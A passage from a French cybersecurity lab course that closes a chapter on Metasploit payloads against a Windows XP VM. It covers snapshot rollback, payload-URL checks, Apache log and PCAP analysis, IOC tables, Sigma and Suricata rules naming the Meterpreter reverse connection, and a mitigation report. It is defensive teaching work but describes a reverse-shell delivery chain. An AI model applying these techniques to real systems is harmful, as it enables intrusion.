- `ipconfig` : confirme l'adresse IPv4 `192.168.56.104` et l'absence de passerelle.
- `dir C:\Temp` : confirme que les fichiers `.exe` ne sont plus présents. Le répertoire peut avoir été supprimé par le rollback ; dans ce cas, `File Not Found` est le résultat attendu.
- `screenshotpng` : capture l'écran après les commandes et conserve la preuve visuelle.
- `ping -c 3 192.168.56.104` : vérifie depuis Kali que la VM répond de nouveau sur le réseau host-only.
- Piège : si `ping` échoue, le pare-feu Windows XP peut bloquer l'ICMP. Vérifiez l'adresse avec `ipconfig` et testez le port HTTP après le Lab-01, ou utilisez `arping`.
- Piège : le rollback ne restaure pas les preuves situées sur Kali. Elles sont indépendantes de la VM.

**Résultat attendu**

```text
Windows IP Configuration

Ethernet adapter Local Area Connection:
        IP Address. . . . . . . . . . . . : 192.168.56.104
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . :

C:\>dir C:\Temp
File Not Found
```

```text
3 packets transmitted, 3 received, 0% packet loss
```

**Preuve** — `preuves/ch2-lab05/demarrage-post-rollback.txt`, `preuves/ch2-lab05/post-rollback.png` et `preuves/ch2-lab05/ping-post-rollback.txt`.

#### Étape 6 — Vérifier que les URL de payload ne répondent plus

**But** — confirmer que le serveur Apache ne sert plus aucun des quatre exécutables.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — fichiers supprimés de `/var/www/payloads`, Apache actif.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab05/verification-http.txt bash -c '
  for f in windows_xp_stageless.exe windows_xp_staged.exe windows_xp_shell.exe windows_xp_encoded.exe; do
    code=$(curl -s -o /dev/null -w "%{http_code}" "http://192.168.56.101/payloads/$f")
    printf "%s %s\n" "$code" "$f"
  done
'
```

**Explication de la commande**

- La boucle `for` parcourt les quatre noms de fichiers supprimés.
- `curl -s -o /dev/null -w "%{http_code}"` : demande chaque URL et n'affiche que le code HTTP.
- `printf "%s %s\n"` : affiche le code et le nom du fichier.
- Le code attendu est `404 Not Found`, puisque les fichiers n'existent plus.
- Piège : un code `403` indiquerait un problème de permissions ou un alias mal configuré, pas la suppression du fichier. Un code `200` signifierait que le fichier existe encore.

**Résultat attendu**

```text
404 windows_xp_stageless.exe
404 windows_xp_staged.exe
404 windows_xp_shell.exe
404 windows_xp_encoded.exe
```

**Preuve** — `preuves/ch2-lab05/verification-http.txt`.

#### Étape 7 — Analyser le journal Apache

**But** — extraire du journal Apache les requêtes de téléchargement des payloads et les convertir en indicateurs de détection.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — journal Apache conservé, payloads supprimés après analyse.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
sudo -v
prouve preuves/ch2-lab05/analyse-apache.txt sudo grep -E '^192\.168\.56\.104 .*windows_xp_(stageless|staged|shell|encoded)\.exe' /var/log/apache2/access.log
```

**Explication de la commande**

- `sudo -v` : met à jour le cache `sudo` avant la lecture du journal.
- `sudo grep -E` : lit le journal avec les droits nécessaires. Sur Kali, `/var/log/apache2/access.log` n'est pas lisible par l'utilisateur `kali` seul.
- `^192\.168\.56\.104` : limite les résultats aux requêtes envoyées par Windows XP. Les requêtes `curl` de Kali au Lab-02 sont ainsi exclues.
- `windows_xp_(stageless|staged|shell|encoded)\.exe` : expression régulière étendue qui accepte les quatre noms de payloads. Le point est échappé pour ne pas correspondre à n'importe quel caractère.
- Le journal contient une ligne par requête HTTP avec l'adresse source, la date, la méthode, l'URL, le code de statut et le `User-Agent`.
- Piège : si le journal a été rotaté, la commande ne trouve rien. Vérifiez `ls -lh /var/log/apache2/access.log*` et utilisez `access.log.1` si nécessaire.
- Piège : le payload encodé a été généré mais n'a pas été livré dans le Lab-03. Le journal contient donc trois lignes de téléchargement, pas quatre.

**Résultat attendu**

```text
192.168.56.104 - - [date] "GET /payloads/windows_xp_stageless.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
192.168.56.104 - - [date] "GET /payloads/windows_xp_staged.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
192.168.56.104 - - [date] "GET /payloads/windows_xp_shell.exe HTTP/1.1" 200 ... "Mozilla/4.0 (compatible; MSIE ...)"
```

Chaque ligne fournit un IOC : adresse source `192.168.56.104`, URL `/payloads/<nom>.exe`, code `200`, `User-Agent` Internet Explorer et horodatage.

**Preuve** — `preuves/ch2-lab05/analyse-apache.txt`.

#### Étape 8 — Analyser la capture réseau

**But** — retrouver dans le PCAP la requête HTTP de téléchargement et le flux TCP de la session inverse.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — PCAP `preuves/ch2-lab03/trafic-xp.pcap` présent.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
prouve preuves/ch2-lab05/analyse-pcap.txt bash -c '
  tcpdump -nn -r preuves/ch2-lab03/trafic-xp.pcap -c 10 "tcp port 80" | grep -a "GET /payloads"
  tcpdump -nn -r preuves/ch2-lab03/trafic-xp.pcap -c 10 "tcp port 4444"
'
```

**Explication de la commande**

- `tcpdump -nn -r ...` : relit le PCAP sans résolution de noms.
- `-c 10` : limite la lecture aux dix premiers paquets qui correspondent au filtre.
- `"tcp port 80"` : filtre le trafic HTTP.
- `| grep -a "GET /payloads"` : ne conserve que la ligne contenant la requête `GET` vers `/payloads`. `-a` traite l'entrée comme du texte, même si elle contient des caractères non imprimables.
- `"tcp port 4444"` : filtre le flux de la session Meterpreter.
- Le PCAP a été arrêté après le test stageless. Il ne contient donc pas les tests staged et shell, réalisés ensuite.
- Piège : si `grep` ne trouve rien, vérifiez que le filtre `host 192.168.56.104` de la capture correspond bien à l'adresse de la VM et que la capture a démarré avant le téléchargement.

**Résultat attendu**

```text
... IP 192.168.56.104.... > 192.168.56.101.80: Flags [P.], ... HTTP: GET /payloads/windows_xp_stageless.exe HTTP/1.1
... IP 192.168.56.104.... > 192.168.56.101.4444: Flags [S], ...
... IP 192.168.56.101.4444 > 192.168.56.104....: Flags [S.], ...
... IP 192.168.56.104.... > 192.168.56.101.4444: Flags [.], ...
```

**Preuve** — `preuves/ch2-lab05/analyse-pcap.txt`.

#### Étape 9 — Rédiger la table d'IOC

**But** — consigner les indicateurs observés pour permettre une recherche dans les journaux et sur le réseau.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — journaux et PCAP analysés, empreintes du Lab-02 disponibles.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
cat > preuves/ch2-lab05/ioc.md <<'EOF'
# IOC du chapitre 2

| Type | Valeur | Source |
|---|---|---|
| Nom de fichier | windows_xp_stageless.exe | Lab-02 |
| Nom de fichier | windows_xp_staged.exe | Lab-02 |
| Nom de fichier | windows_xp_shell.exe | Lab-02 |
| Nom de fichier | windows_xp_encoded.exe | Lab-02 |
| Empreinte SHA-256 | à recopier depuis preuves/ch2-lab02/comparaison.txt | Lab-02 |
| URL de livraison | http://192.168.56.101/payloads/windows_xp_stageless.exe | Lab-03 |
| URL de livraison | http://192.168.56.101/payloads/windows_xp_staged.exe | Lab-03 |
| URL de livraison | http://192.168.56.101/payloads/windows_xp_shell.exe | Lab-03 |
| Port de session | TCP 4444 | Lab-03 |
| Port de session | TCP 4445 | Lab-03 |
| Port de session | TCP 5555 | Lab-03 |
| Processus | windows_xp_stageless.exe | Lab-04 |
| Compte | WINXP\win | Lab-04 |
| Chemin de dépôt | C:\Temp\ | Lab-03 |
| User-Agent | Mozilla/4.0 (compatible; MSIE ...) | Lab-03 |
| Source | 192.168.56.104 | Lab-03 |
| Destination | 192.168.56.101 | Lab-03 |
EOF
prouve preuves/ch2-lab05/ioc-preuve.txt cat preuves/ch2-lab05/ioc.md
```

**Explication de la commande**

- `cat > ... <<'EOF'` : écrit la table dans un fichier Markdown.
- Chaque ligne du tableau associe un type d'indicateur, sa valeur et le lab où il a été observé.
- La ligne d'empreinte renvoie au fichier `preuves/ch2-lab02/comparaison.txt`. Remplacez-la par les empreintes réelles de votre exécution, ou ajoutez une ligne par fichier avec la valeur observée. N'inventez jamais une empreinte.
- Les valeurs `4444`, `4445` et `5555` sont les ports des handlers. Les noms de processus et le compte proviennent de `ps` et `getuid`.
- `prouve ... cat ...` : enregistre le contenu de la table avec la date, la commande et le code retour.
- Piège : un IOC sans source n'est pas vérifiable. Conservez la référence au fichier ou au journal qui contient la valeur.

**Résultat attendu**

```text
# date: ...
# cmd: cat preuves/ch2-lab05/ioc.md
# IOC du chapitre 2

| Type | Valeur | Source |
|---|---|---|
| Nom de fichier | windows_xp_stageless.exe | Lab-02 |
...
# rc=0
```

**Preuve** — `preuves/ch2-lab05/ioc.md` et `preuves/ch2-lab05/ioc-preuve.txt`.

#### Étape 10 — Écrire et valider la règle Sigma

**But** — produire une règle de détection de l'exécution d'un binaire depuis `C:\Temp`, comportement observé dans le lab.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — Ruby installé avec la bibliothèque `yaml` (fournie avec Metasploit).

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
cat > preuves/ch2-lab05/regle-sigma.yml <<'EOF'
title: Exécution d'un exécutable depuis C:\Temp
id: 3f6c2b1a-7d4e-4c8a-9b2f-1a2b3c4d5e6f
status: experimental
description: Détecte l'exécution d'un binaire déposé dans C:\Temp, comportement observé dans le laboratoire du chapitre 2.
author: Etudiant
date: 2026/11/17
logsource:
  product: windows
  category: process_creation
detection:
  selection:
    Image|startswith: 'C:\Temp\'
    Image|endswith: '.exe'
  condition: selection
falsepositives:
  - Installation logicielle légitime depuis C:\Temp
level: high
tags:
  - attack.execution
  - attack.t1204.002
EOF
prouve preuves/ch2-lab05/validation-sigma.txt ruby -ryaml -e "YAML.load_file('preuves/ch2-lab05/regle-sigma.yml'); puts 'YAML valide'"
```

**Explication de la commande**

- `title` : nom lisible de la règle.
- `id` : identifiant unique au format UUID. Conservez-le si vous modifiez la règle.
- `status: experimental` : indique que la règle n'a pas encore été validée sur un parc réel.
- `description` : comportement détecté et contexte.
- `logsource` : source de journal. `product: windows` et `category: process_creation` ciblent la création de processus.
- `selection` : conditions de correspondance. `Image|startswith: 'C:\Temp\'` cible les binaires lancés depuis `C:\Temp` ; `Image|endswith: '.exe'` limite aux exécutables.
- `condition: selection` : applique la sélection.
- `falsepositives` : installations légitimes depuis `C:\Temp`.
- `tags` : rattachement ATT&CK (`attack.execution`, `attack.t1204.002`).
- `ruby -ryaml -e "YAML.load_file(...); puts 'YAML valide'"` : charge le fichier YAML et affiche un message si la syntaxe est valide. Cette validation ne vérifie pas la sémantique Sigma complète ; elle vérifie au moins que le YAML est bien formé.
- Piège : Windows XP ne dispose pas de Sysmon. Cette règle s'applique à un Windows moderne avec Sysmon ou l'audit de création de processus (événement 4688). Sur XP, la détection repose sur le journal de sécurité, `tasklist`, le journal Apache et la capture réseau. Cette limite est expliquée dans le rapport de détection.
- Piège : `Image|startswith` attend un chemin Windows avec des antislashs. En YAML simple quote, les antislashs sont littéraux.

**Résultat attendu**

```text
# date: ...
# cmd: ruby -ryaml -e ...
YAML valide
# rc=0
```

**Preuve** — `preuves/ch2-lab05/regle-sigma.yml` et `preuves/ch2-lab05/validation-sigma.txt`.

#### Étape 11 — Écrire la règle Suricata

**But** — produire deux règles réseau : téléchargement HTTP d'un `.exe` et connexion inverse sur le port 4444.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — aucun service Suricata actif n'est nécessaire pour rédiger la règle.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
cat > preuves/ch2-lab05/regle-suricata.rules <<'EOF'
alert http 192.168.56.104 any -> 192.168.56.101 any (msg:"CH2 - telechargement payload Windows XP"; flow:established,to_server; content:"GET"; http_method; content:".exe"; http_uri; sid:2000001; rev:1;)
alert tcp 192.168.56.104 any -> 192.168.56.101 4444 (msg:"CH2 - connexion inverse Meterpreter port 4444"; flow:established,to_server; sid:2000002; rev:1;)
EOF
prouve preuves/ch2-lab05/regle-suricata-preuve.txt cat preuves/ch2-lab05/regle-suricata.rules
```

**Explication de la commande**

- `alert http` : première règle appliquée au trafic HTTP.
- `192.168.56.104 any -> 192.168.56.101 any` : source Windows XP, destination Kali, sur n'importe quel port.
- `flow:established,to_server` : ne déclenche que sur une connexion établie, dans le sens client vers serveur.
- `content:"GET"; http_method;` : vérifie que la méthode HTTP est `GET`.
- `content:".exe"; http_uri;` : vérifie que l'URI contient `.exe`.
- `sid:2000001; rev:1;` : identifiant de règle et version. Les SID 2000001 et 2000002 sont réservés au laboratoire.
- La seconde règle `alert tcp ... 4444` détecte une connexion établie de Windows XP vers le port 4444 de Kali, signature du handler Meterpreter.
- Piège : la première règle se déclenche sur tout téléchargement `.exe` depuis XP vers Kali, y compris un téléchargement légitime. La corréler avec le nom du fichier ou le journal Apache pour réduire les faux positifs.
- Piège : la seconde règle est spécifique au port 4444. Les variantes staged et shell utilisent 4445 et 5555 ; ajoutez des règles ou une plage de ports si nécessaire.
- Si Suricata est installé, validez la syntaxe avec `suricata -T -S preuves/ch2-lab05/regle-suricata.rules`. Sinon, conservez la règle et signalez que la validation exécutable n'a pas été réalisée.

**Résultat attendu**

```text
alert http 192.168.56.104 any -> 192.168.56.101 any (msg:"CH2 - telechargement payload Windows XP"; flow:established,to_server; content:"GET"; http_method; content:".exe"; http_uri; sid:2000001; rev:1;)
alert tcp 192.168.56.104 any -> 192.168.56.101 4444 (msg:"CH2 - connexion inverse Meterpreter port 4444"; flow:established,to_server; sid:2000002; rev:1;)
```

**Preuve** — `preuves/ch2-lab05/regle-suricata.rules` et `preuves/ch2-lab05/regle-suricata-preuve.txt`.

#### Étape 12 — Rédiger le rapport de détection et de mitigation

**But** — synthétiser les observations, les IOC, les règles et les mesures préventives, détectives et correctives.

**Machine** — Kali `192.168.56.101`, terminal 1.

**Prérequis** — étapes 1 à 11 terminées.

> **Machine** : Kali `192.168.56.101` | **Terminal** : terminal 1 | **Utilisateur** : `kali` | **Répertoire** : `/home/kali`

**Exemple de commande**

```bash
cat > preuves/ch2-lab05/detection.md <<'EOF'
**Détection et mitigation - Chapitre 2**

**Ce que le défenseur voit**

- Une requête HTTP GET vers /payloads/NOM.exe sur le serveur Kali.
- Un fichier EXE déposé dans C:\Temp sur Windows XP.
- Un processus créé depuis C:\Temp par explorer.exe.
- Une connexion TCP sortante de Windows XP vers 192.168.56.101:4444, 4445 ou 5555.
- Des commandes de découverte (sysinfo, getuid, ps, ipconfig, systeminfo).

**IOC**

Voir preuves/ch2-lab05/ioc.md.

**Règles**

- Sigma : preuves/ch2-lab05/regle-sigma.yml.
- Suricata : preuves/ch2-lab05/regle-suricata.rules.

**Mitigation préventive**

- Appliquer une politique de restriction logicielle (SRP) ou AppLocker sur les systèmes qui le supportent.
- Interdire l'exécution depuis C:\Temp et les répertoires utilisateur non administratifs.
- Filtrer les téléchargements d'exécutables au proxy et au pare-feu.
- Segmenter le réseau et limiter les flux sortants aux destinations nécessaires.
- Maintenir l'antivirus et l'EDR à jour ; Windows XP ne reçoit plus de correctifs de sécurité.
- Appliquer le moindre privilège au compte utilisateur.
- Migrer Windows XP vers un système supporté.

**Mitigation détective**

- Centraliser les journaux Apache, Windows Security et pare-feu.
- Surveiller les créations de processus depuis C:\Temp.
- Surveiller les connexions sortantes vers des ports non standards.
- Utiliser un IDS/IPS réseau et une analyse régulière des PCAP.
- Mettre en place un contrôle d'intégrité des fichiers (FIM) sur les répertoires sensibles.

**Mitigation corrective**

- Isoler la VM ou le poste compromis.
- Restaurer un snapshot ou une image saine.
- Réinitialiser les identifiants exposés.
- Analyser les journaux et le PCAP pour déterminer l'étendue de l'exécution.
- Corriger la cause racine et mettre à jour la détection.

**Vérification**

- Rejouer le PCAP dans Suricata et vérifier le déclenchement des SID 2000001 et 2000002.
- Tester la règle Sigma avec un événement de création de processus depuis C:\Temp.
- Vérifier que les URL de payload répondent 404 après suppression.
- Vérifier que le snapshot WinXP restaure bien l'état sain.
EOF
prouve preuves/ch2-lab05/detection-preuve.txt cat preuves/ch2-lab05/detection.md
```

**Explication de la commande**

- Le rapport reprend les observations du lab et renvoie aux fichiers d'IOC et de règles.
- La section préventive couvre la restriction logicielle, le filtrage réseau, le moindre privilège et la migration hors de Windows XP.
- La section détective couvre la centralisation des journaux, la surveillance des processus, des connexions et l'IDS.
- La section corrective couvre l'isolement, le rollback, la réinitialisation des identifiants et l'analyse.
- La section vérification décrit comment tester les règles et le rollback.
- `prouve ... cat ...` : enregistre le contenu avec la date, la commande et le code retour.
- Piège : ne présentez pas la règle Sigma comme opérationnelle sur Windows XP. Le rapport doit rappeler que Sysmon n'existe pas sur XP et que la détection repose sur les journaux et le réseau.

**Résultat attendu**

```text
# date: ...
# cmd: cat preuves/ch2-lab05/detection.md
**Détection et mitigation - Chapitre 2**
...
# rc=0
```

**Preuve** — `preuves/ch2-lab05/detection.md` et `preuves/ch2-lab05/detection-preuve.txt`.

### En conclusion

Le Lab-05 a fermé les sessions, supprimé les payloads, restauré le snapshot `WinXP` et vérifié le retour à l'état sain. Il a ensuite transformé les traces en IOC et en règles de détection, puis rédigé un rapport de mitigation.

Points à retenir :

- le rollback est la seule garantie de retour à un état propre après exécution d'un payload ;
- les preuves doivent être copiées hors de la VM avant le rollback ;
- le journal Apache et le PCAP fournissent des traces complémentaires : requête HTTP, fichier téléchargé, flux de session ;
- la règle Sigma est applicable à un Windows moderne avec Sysmon ou l'audit de processus, pas à Windows XP tel quel ;
- la règle Suricata détecte le téléchargement `.exe` et la connexion inverse sur le port 4444 ;
- la mitigation combine prévention, détection et correction, avec la migration hors de Windows XP comme mesure de fond.

Critères de réussite :

- `preuves/ch2-lab05/` contient les preuves des étapes 1 à 12 ;
- `etat-sessions.txt` ne signale ni processus `msfconsole` ni port de handler ;
- `nettoyage-xp.png` montre `C:\Temp` sans payload ;
- `rollback.txt` contient `Restoring snapshot` et `# rc=0` ;
- `ping-post-rollback.txt` montre `0% packet loss` ;
- `verification-http.txt` contient quatre `404` ;
- `analyse-apache.txt` et `analyse-pcap.txt` contiennent les traces attendues ;
- `ioc.md`, `regle-sigma.yml`, `regle-suricata.rules` et `detection.md` existent ;
- `validation-sigma.txt` contient `YAML valide`.

Le chapitre 2 est terminé. Les anciens labs de déni de service, d'injection SQL, de dépassement de tampon et d'Active Directory restent disponibles dans les annexes A et B.

## Synthèse du chapitre

Ce chapitre a construit une chaîne offensive complète dans le laboratoire host-only : génération de payloads Windows XP avec `msfvenom`, hébergement sur Apache, téléchargement et exécution sur la VM Windows XP, ouverture d'une session Meterpreter, collecte de preuves, capture réseau, détection et rollback.

| Lab | Résultat obtenu | Preuve principale |
|---|---|---|
| Lab-01 | Serveur de payloads opérationnel, accès HTTP depuis Windows XP | `preuves/ch2-lab01/acces-xp.txt` |
| Lab-02 | Quatre payloads générés, typés et hachés | `preuves/ch2-lab02/comparaison.txt` |
| Lab-03 | Sessions Meterpreter et shell obtenues | `preuves/ch2-lab03/session-stageless.txt` |
| Lab-04 | Système, processus et fichiers explorés | `preuves/ch2-lab04/session-lab04.txt` |
| Lab-05 | Artefacts supprimés, snapshot restauré, détections rédigées | `preuves/ch2-lab05/detection.md` |

Les notions clés à retenir :

- **Metasploit** sépare la génération (`msfvenom`), l'écoute (`exploit/multi/handler`) et l'interaction (`sessions`). Le handler doit utiliser le même nom de payload que l'exécutable.
- **Staged et stageless** ne sont pas interchangeables. Le payload staged dépend d'un second téléchargement ; le payload stageless est autonome.
- **L'encodage** modifie la représentation binaire et l'empreinte, mais ne garantit pas l'évasion des antivirus modernes.
- **La livraison HTTP** laisse des traces dans le journal Apache : adresse source, URL, code de statut, `User-Agent` et horodatage.
- **La session inverse** crée un flux TCP sortant vers Kali. Ce flux est visible dans le PCAP et peut être filtré par un IDS ou un pare-feu.
- **Windows XP** ne dispose pas des capteurs modernes. La détection repose sur les journaux disponibles, `tasklist`, le journal Apache et la capture réseau ; les règles Sigma modernes doivent être adaptées.
- **Le rollback** est obligatoire. Les preuves sont copiées hors de la VM avant la restauration du snapshot.

Cartographie ATT&CK du chapitre :

| Phase | Techniques couvertes |
|---|---|
| Resource Development | T1587.001 |
| Defense Evasion | T1027 |
| Execution | T1204.002, T1059.003 |
| Command and Control | T1105, T1095 |
| Discovery | T1033, T1082, T1083 |

Les techniques de persistance, de vol d'identifiants, de mouvement latéral et d'effacement de traces ne sont pas exécutées dans ce chapitre. Elles ne doivent pas être déduites des règles de détection proposées.

## Erreurs fréquentes

| Symptôme | Cause probable | Correction |
|---|---|---|
| `prouve: command not found` | Fonction non chargée dans le shell courant | `source /home/kali/prouve.sh`, puis `type prouve` |
| `msfvenom: command not found` | Paquet `metasploit-framework` absent | `sudo apt install metasploit-framework` sur Kali |
| `404` sur `/payloads/...` | Alias Apache absent ou fichier supprimé | `sudo a2enconf payloads`, `sudo apache2ctl configtest`, redémarrer Apache, vérifier le fichier |
| `403` sur un fichier de payload | Permissions insuffisantes | Vérifier `ls -l /var/www/payloads`, ownership `kali:kali`, mode `755` sur le répertoire et `644` sur le fichier |
| Aucune session après l'exécution | Payload du handler différent de l'exécutable, `LHOST` ou `LPORT` incorrect, pare-feu, ou exécution refusée | Vérifier `set PAYLOAD`, `set LHOST`, `set LPORT`, `sessions -l`, puis relancer |
| `spool off` inconnu dans Meterpreter | Commande exécutée dans la session au lieu de la console | `background`, puis `spool off` |
| `whoami` introuvable sur Windows XP | Commande absente de certaines éditions | Utiliser `echo %USERNAME%` |
| `screenshot` échoue | Pas de session graphique active | Vérifier `explorer.exe` dans `ps`, relancer depuis une session interactive |
| `download` échoue | Chemin source ou destination incorrect | Vérifier `C:/boot.ini`, créer `preuves/ch2-lab04/`, utiliser un chemin absolu si nécessaire |
| `msfvenom -e` échoue | Encodeur x86 appliqué à un payload x64 | Utiliser un payload Windows 32 bits pour Windows XP |
| La restauration du snapshot échoue | VM encore en cours d'exécution | `VBoxManage controlvm WinXp poweroff`, puis restaurer |
| Les empreintes changent entre deux générations | Le template PE contient des données variables | Comparer les empreintes d'une même exécution, pas entre deux générations |
| Le PCAP est vide | Capture démarrée après le téléchargement ou sur la mauvaise interface | Relancer `tcpdump` avant le `GET`, vérifier `-i any` ou le nom de l'interface Kali affiché par `ip -4 addr` |

## Ressources et références

Les références suivantes documentent les commandes, les formats et les concepts utilisés dans le chapitre. Les versions exactes de Metasploit et d'Apache sont relevées dans les preuves du Lab-01 ; les liens peuvent évoluer avec les versions logicielles.

**Metasploit et Meterpreter**

- Documentation Metasploit, utilisation de `msfvenom` : <https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html>
- Documentation Metasploit, fonctionnement des payloads : <https://docs.metasploit.com/docs/using-metasploit/basics/how-payloads-work.html>
- Documentation Metasploit, gestion des sessions : <https://docs.metasploit.com/docs/using-metasploit/basics/managing-sessions.html>
- Documentation Metasploit, mode stageless de Meterpreter : <https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-stageless-mode.html>
- OffSec, Metasploit Unleashed : <https://www.offsec.com/metasploit-unleashed/>

**Apache et réseau**

- Documentation Apache HTTP Server, module `mod_alias` : <https://httpd.apache.org/docs/2.4/mod/mod_alias.html>
- Documentation Apache HTTP Server, journaux d'accès : <https://httpd.apache.org/docs/2.4/logs.html>
- Page de manuel `tcpdump` : <https://www.tcpdump.org/manpages/tcpdump.1.html>
- Manuel VirtualBox : <https://www.virtualbox.org/manual/>

**MITRE ATT&CK et D3FEND**

- T1587.001 — Develop Capabilities: Malware : <https://attack.mitre.org/techniques/T1587/001/>
- T1027 — Obfuscated Files or Information : <https://attack.mitre.org/techniques/T1027/>
- T1204.002 — User Execution: Malicious File : <https://attack.mitre.org/techniques/T1204/002/>
- T1059.003 — Command and Scripting Interpreter: Windows Command Shell : <https://attack.mitre.org/techniques/T1059/003/>
- T1105 — Ingress Tool Transfer : <https://attack.mitre.org/techniques/T1105/>
- T1095 — Non-Application Layer Protocol : <https://attack.mitre.org/techniques/T1095/>
- T1033 — System Owner/User Discovery : <https://attack.mitre.org/techniques/T1033/>
- T1082 — System Information Discovery : <https://attack.mitre.org/techniques/T1082/>
- T1083 — File and Directory Discovery : <https://attack.mitre.org/techniques/T1083/>
- D3FEND, base de connaissances des contre-mesures : <https://d3fend.mitre.org/>

**Détection**

- Dépôt SigmaHQ, règles Sigma : <https://github.com/SigmaHQ/sigma>
- Documentation Suricata : <https://docs.suricata.io/>
- Microsoft, cycle de vie de Windows XP : <https://learn.microsoft.com/en-us/lifecycle/products/windows-xp>

## Annexe A — Attaques réseau et applicatives (héritage)

Le chapitre 2 est centré sur Metasploit et le développement de payloads Windows XP. Les labs de déni de service, d'injection SQL et de dépassement de tampon sont conservés dans `annexe-attaques-reseau.md`. Leurs commandes, leurs preuves, leurs identifiants ATT&CK et leurs résultats attendus sont inchangés.

| Ancien lab | Contenu | Fichier |
|---|---|---|
| Lab 1 | Test de SYN flood contrôlé et analyse de disponibilité | `annexe-attaques-reseau.md` |
| Lab 2 | Injection SQL, dépassement de tampon et extraction de données | `annexe-attaques-reseau.md` |

## Annexe B — Active Directory (héritage)

Le lab Active Directory est conservé dans `annexe-active-directory.md`. Il contient les commandes, les preuves et les références d'origine du lab 3.

| Ancien lab | Contenu | Fichier |
|---|---|---|
| Lab 3 | Attaques Active Directory, Pass-the-Hash et brute-force | `annexe-active-directory.md` |

Ces annexes ne sont pas des prérequis du chapitre 3. Elles restent disponibles pour les lecteurs qui doivent rejouer les manipulations d'origine ou retrouver une commande, une preuve ou une référence CVE. Elles utilisent le même réseau host-only `192.168.56.0/24` et les mêmes snapshots ; les règles de sécurité du chapitre 1 s'appliquent sans modification.

> **Rappel de sécurité** — Les techniques des annexes et du chapitre 2 ne doivent être exécutées que dans le laboratoire isolé, sur les VMs prévues, avec un snapshot et un rollback. Aucune de ces manipulations ne doit être transposée sur un système réel.
